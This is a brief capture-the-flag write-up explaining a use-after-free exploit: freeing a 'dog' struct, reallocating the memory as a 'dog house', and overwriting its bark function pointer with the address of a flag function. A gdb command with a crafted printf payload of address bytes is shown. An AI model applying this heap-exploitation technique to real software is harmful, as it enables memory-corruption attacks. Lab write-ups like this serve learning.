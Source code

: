 # Writeup ch63

If we buy a dog then kills it. The memory pointed by the dog struct pointer gets freed but its value is not erased.
Therefore we can create a new dog house which will be allocated on that very memory place.
If we input into the name and address buffers the address of ```bringBackTheFlag``` we can overwrite the dog->bark function pointer to point to bringBackTheFlag!

```
(gdb) run < <(printf "1\nFUCK\n4\n5\n\xcb\x87\x04\x08\xcb\x87\x04\x08\xcb\x87\x04\x08\xcb\x87\x04\x08\n\xcb\x87\x04\x08\xcb\x87\x04\x08\n2\n")
```